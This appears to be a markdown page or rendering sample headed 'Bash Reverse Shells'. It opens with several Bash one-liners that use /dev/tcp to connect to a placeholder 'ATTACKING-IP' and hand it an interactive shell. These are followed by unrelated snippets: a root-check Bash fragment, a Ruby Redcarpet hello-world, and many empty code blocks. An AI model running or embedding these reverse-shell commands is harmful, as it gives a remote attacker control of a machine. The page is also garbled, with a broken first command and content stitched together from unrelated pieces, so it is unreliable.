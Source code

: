 # Bash Reverse Shells

```bash
exec /bin/bash 0&0 2>&0

```

```
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196

```
```
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:

while read line 0<&5; do $line 2>&5 >&5; done
```

#

```/bin/bash

###### CONFIG
ACCEPTED_HOSTS="/root/.hag_accepted.conf"
BE_VERBOSE=false

if [ "$UID" -ne 0 ]
then
 echo "Superuser rights required"
 exit 2
fi

genApacheConf(){
 echo -e "# Host ${HOME_DIR}$1/$2 :"
}

echo '"quoted"' | tr -d \" > text.txt

```

#

```ruby
require 'redcarpet'
markdown = Redcarpet.new("Hello World!")
puts markdown.to_html
```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```
